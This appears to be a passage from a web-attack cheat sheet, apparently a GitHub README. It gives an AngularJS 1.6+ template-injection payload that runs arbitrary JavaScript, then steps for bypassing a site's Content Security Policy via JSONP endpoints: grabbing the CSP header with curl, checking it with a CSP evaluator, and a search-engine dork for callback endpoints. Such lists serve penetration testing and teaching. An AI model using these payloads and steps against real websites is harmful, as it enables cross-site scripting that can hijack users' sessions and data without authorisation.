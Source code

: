 **1.6.0+** (no [Expression Sandbox](http://angularjs.blogspot.co.uk/2016/09/angular-16-expression-sandbox-removal.html)) by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{constructor.constructor('alert(1)')()}}
```

**Content Security Policy (CSP) bypass via JSONP endpoints**

Grab the target's CSP:

```
curl -I http://example.com | grep 'Content-Security-Policy'
```

Either paste the CSP into https://csp-evaluator.withgoogle.com/ or just submit the target's address into the "Content Security Policy" field. The CSP Evaluator will notify you if one of the whitelisted domains has JSONP endpoints.

![image](https://user-images.githubusercontent.com/18099289/32136707-a1c12510-bc12-11e7-8a80-8a22b3e94232.png)

Now we can use a Google dork to find some JSONP endpoints on the domains listed above.

```
site:example.com inurl:callback
```

